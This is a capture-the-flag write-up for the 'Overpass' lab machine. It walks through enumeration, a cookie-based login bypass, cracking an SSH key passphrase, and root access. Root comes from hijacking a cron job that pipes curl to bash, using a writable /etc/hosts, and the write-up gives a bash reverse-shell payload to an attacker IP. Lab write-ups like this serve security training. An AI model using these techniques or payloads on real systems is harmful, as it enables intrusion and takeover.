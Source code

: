 # Overpass - Easy

**IP : 10.10.137.51**

## Enumeration

### nmap - `nmap 10.10.137.51 -oN nmap-initial` 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

### Manual scrolling through web-page

**Home page**

**`Your passwords are protected using Military Grade encryption.`**

Seems fishy.

Going through source page for web page we get this:

`<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->`

Hmmm....It's **ceaser** ain't it?

**About us**

```
Ninja - Lead Developer
Pars - Shibe Enthusiast and Emotional Support Animal Manager
Szymex - Head Of Security
Bee - Chief Drinking Water Coordinator
MuirlandOracle - Cryptography Consultant
```
Maybe some usernames... well gonna find out soon

### gobuster - `gobuster dir -u http://10.10.137.51/ --wordlist ../common_wl.txt| tee gobuster-scan`

```
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]    
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]      
/index.html           (Status: 301) [Size: 0] [--> ./]        

```

**/admin** gotta check that.

Dummy data for sending login data through /admin page. Got this **/api/login** using **web dev tools** on firefox.

`curl -X POST http://10.10.137.51/api/login -d "username: 'admin', password: 'admin'"`

Tried some SQLi payloads. Looks like SQLi is not an option here....

Let's check the source code for this admin page.... Some JavaScript **/login.js** is being used. Let's see there.. so its sending data to **/api/login** we already have that. It's also setting some cookie... What happens if I manually change it?... Well I got login in!

`
Cookie_name: SessionToken
Cookie_Value: 1
`

How did I know it was 1.. well 0/1 usually stand for TRUE in most programming languages. The creators of this so called password vault are programmers... maybe they return 0 or 1. It was a total shot in dark I know.. but it worked... there's no harm (*atleast not for me :)* ).


We got ourselves in and a **ssh key for user james**. Saving it as james_key and running **ssh2john** so that john can find a key for it.

`python ssh2john james_key > hash`

Running **john the ripper** we get the passphrase: 

**NOTE TO SELF: IMPORTANT REMEMBER** `--wordlist=<dictionary_file>` **it should be as it is. It cannot be like** `--wordlist <dictionary_file>` *John is ruthless* 

`john hash --wordlist=rockyou.txt` 

**`Passphrase: james13`**

Let's login using ssh now.

`ssh -i james_key james@10.10.137.51`

We are in and we got outselves a **user.txt** file.

Running **LinPEAS**

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

`/etc/hosts is world writable`

Using the above combination we can get ourselves a reverse shell as root. Changing the IP for *overpass.thm* in /etc/hosts to out machine IP and running a server with exact directories.

Making a file **buildscript.sh** with following content will get us a reverse shell in a minute or so.

```
#!/bin/bash
bash -i >& /dev/tcp/<my_machine_ip>/<port> 0>&1
```


